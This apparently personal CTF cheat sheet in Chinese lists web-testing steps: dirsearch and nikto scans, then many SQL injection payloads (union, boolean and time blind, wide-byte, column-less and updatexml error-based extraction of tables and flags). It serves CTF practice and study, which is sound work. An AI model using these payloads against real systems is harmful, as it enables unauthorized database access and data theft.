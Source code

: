     点击 Load URL, √Post data, 修改对应的字段
    点击 Execute

扫描工具
    
    wscan，ctf-wscan dirsearch之类的
        dirsearch: python dirsearch.py -u "http://node3.buuoj.cn/" -e * -s 1 --proxy=http://proxy2.dq.petrochina:8080 
        dirsearch: python dirsearch.py -u "http://node3.buuoj.cn/" -e php,asp,aspx,do,jsp -s 1 --proxy=http://proxy2.dq.petrochina:8080 
    nikto -h 10.1.1.147 -p 5002


[WEB CTF CheatSheet](https://github.com/w181496/Web-CTF-Cheatsheet#python)

# Sql

## 测试
post请求用#, GET请求用 %23
```
id=1%23                             | 普通注入
id=1'%23                             | 普通注入
id='1'%23                             | 普通注入
id=1''%23                             | 普通注入
id=1"%23                             | 普通注入
id=1""%23                             | 普通注入
id=1')%23                             | 普通注入
id=1'))%23                             | 普通注入
id=1")%23                             | 普通注入
id=1"))%23                             | 普通注入
id='%df\'#'                             | 宽字节注入
id=1'or/**/1/**/like/**/1#                             | 普通注入
     rlike/regexp                             | 普通注入
username=admin\&password=||1=1#                             | 普通注入
id=1 and DATABASE() regexp 0x742E2B
id=0 or id BETWEEN 1 and 5; 等价于 [a,b]
id=CHAR(97, 100, 109, 105, 110)

无列名注入
select 1,(select group_concat(b) from (select 1,2,3 as b union select*from users)b)
select 1,(select group_concat(b) from (select DISTINCT table_name as b from mysql.innodb_index_stats WHERE DATAbase_name=DATABASE())b)
1   and (select group_concat(`2`)   from    (select 1,2 union   select  *   from    {table_name})a) regexp  {{}}
```

## 常见的SQL注入考点 CTF-123458

```
    1.联合查询: union select group_concat(username,0x7e,password),2,3 from...，order by...
    2.布尔盲注: if(ascii(substr(database(),1,1))>100,1,0)
               不用闭合
               SELECT password from user WHERE id = ${id}
                      ${id} = if(ascii(substr((select flag from flag),{},1))>{},1,2)
    3.时间盲注: if(ascii(substr(database(),1,1))>100,sleep(5),1)
    4.报错注入: (updatexml(1,concat(0x7e,(select user()),0x7e),1)); 大整数报错等
                'or updatexml(1,concat(0x7e,user()),1)#
                'or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),1)#
                'or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag_head')),1),1)#
                'or updatexml(1,concat(0x7e,(select group_concat(flag_h1) from flag_head)),1),1)#
                --- 见 web_sql_00normal_04_error_inject.py
                (1). 通过floor报错 能显示64字符, test1名称里会多出1，去掉改为test
```